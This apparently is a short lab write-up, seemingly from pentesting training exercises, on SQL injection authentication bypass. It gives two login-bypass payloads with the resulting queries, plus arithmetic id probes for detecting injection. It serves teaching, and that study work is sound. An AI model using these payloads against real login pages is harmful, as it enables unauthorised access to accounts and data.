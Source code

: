 
#Simple SQL Injection 

![sqli](simple.PNG)

##SQL Injection Authentication Bypass


### Method 1---------------------------------------------------------------------

http://ptl-c994a86c-96f9cd66.libcurl.st/login.php


####Query 

SELECT USER= '' AND PASSWORD=MD5('')


####Injection
```
admin' or '1' = '1
```

####Final Query 

SELECT USER= 'admin' or '1' = '1' AND PASSWORD=''











### Method 2---------------------------------------------------------------------


http://ptl-8c7e0178-cac83b2a.libcurl.st


####Query 
	SELECT USER= '' AND PASSWORD=MD5('')

####Injection 

```
password") or "1" = "1" --   
```

####Final Query 

SELECT USER= "password") or "1" = "1" -- " AND PASSWORD=MD5("")


Intial Request Format 

- /article.php?id=2-1, the following request will be sent to the database SELECT * FROM articles WHERE id=2-1

- /article.php?id=2-0, the following request will be sent to the database SELECT * FROM articles WHERE id=2-0



